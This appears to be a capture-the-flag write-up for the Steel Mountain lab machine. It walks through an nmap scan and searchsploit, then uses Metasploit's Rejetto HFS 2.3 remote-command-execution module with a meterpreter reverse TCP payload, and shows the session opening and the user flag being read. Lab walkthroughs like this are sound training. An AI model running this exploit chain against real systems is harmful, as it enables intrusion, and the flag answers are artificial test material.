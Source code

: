 ***

Author: dxWiz  
Date: 24 Mar 2022

***

# Task 1 Introduction 

Pretty straight forward, start the machine and go to the machine url and look for your answer in the source code to find out who is the employee of the month.

# Task 2 Initial Access  

Do an nmap scan `nmap -sC -sV $IP` and the scan result will lead you to the answer for question 1. 

    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Microsoft-IIS/8.5
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | rdp-ntlm-info: 
    |   Target_Name: STEELMOUNTAIN
    |   NetBIOS_Domain_Name: STEELMOUNTAIN
    |   NetBIOS_Computer_Name: STEELMOUNTAIN
    |   DNS_Domain_Name: steelmountain
    |   DNS_Computer_Name: steelmountain
    |   Product_Version: 6.3.9600
    |_  System_Time: 2022-03-22T11:49:13+00:00
    | ssl-cert: Subject: commonName=steelmountain
    | Not valid before: 2022-03-21T11:45:50
    |_Not valid after:  2022-09-20T11:45:50
    |_ssl-date: 2022-03-22T11:49:19+00:00; +2s from scanner time.
    8080/tcp  open  http               HttpFileServer httpd 2.3  
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    49152/tcp open  msrpc              Microsoft Windows RPC
    49153/tcp open  msrpc              Microsoft Windows RPC
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49156/tcp open  msrpc              Microsoft Windows RPC
    49163/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

To find the name of the file server, just go to $IP:8080 and take note of the create url of the file server.

Run `searchsploit rejetto http file server 2.3 -w` to find the answer for the CVE number.

Start metasploit with the command `msfconsole` and `search http file server 2.3`

    0  auxiliary/server/android_mercury_parseuri                                normal     No     Android Mercury Browser Intent URI Scheme and Directory Traversal Vulnerability
    1  exploit/linux/smtp/apache_james_exec                    2015-10-01       normal     Yes    Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write
    2  exploit/multi/http/git_client_command_exec              2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
    3  exploit/windows/http/rejetto_hfs_exec                   2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
    4  exploit/windows/scada/codesys_gateway_server_traversal  2013-02-02       excellent  No     SCADA 3S CoDeSys Gateway Server Directory Traversal
    
`use 3` and then `show options` to see what are the required parameters to set. We begin by `set RHOSTS $IP` and `set RPORT 8080`. Also `set LHOST` to attacker machine IP. Final setting will be like below:

    msf6 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

     Name       Current Setting  Required  Description
     ----       ---------------  --------  -----------
     HTTPDELAY  10               no        Seconds to wait before terminating web server
     Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS     <Target>$IP      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT      8080             yes       The target port (TCP)
     SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                            or 0.0.0.0 to listen on all addresses.
     SRVPORT    8080             yes       The local port to listen on.
     SSL        false            no        Negotiate SSL/TLS for outgoing connections
     SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
     TARGETURI  /                yes       The path of the web application
     URIPATH                     no        The URI to use for this exploit (default is random)
     VHOST                       no        HTTP server virtual host


    Payload options (windows/meterpreter/reverse_tcp):

     Name      Current Setting  Required  Description
     ----      ---------------  --------  -----------
     EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
     LHOST     <Attacker>$IP     yes       The listen address (an interface may be specified)
     LPORT     4444             yes       The listen port


To run the exploit, just type `run` or `exploit` and wait patiently until you see below 

    msf6 exploit(windows/http/rejetto_hfs_exec) > run

    [*] Started reverse TCP handler on 10.11.56.137:4444 
    [*] Using URL: http://0.0.0.0:8080/hofayz
    [*] Local IP: http://10.0.2.15:8080/hofayz
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /hofayz
    [*] Sending stage (175174 bytes) to 10.10.40.39


    [*] Meterpreter session 5 opened (<Attacker>$IP:4444 -> <Target>$IP:49298 ) at 2022-03-24 12:02:09 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\KxkkPLaE.vbs' on the target

    meterpreter > 

Go to C:\users\bill\desktop and `type user.txt` to get the flag for the last question

# Task 3 Privilege Escalation  
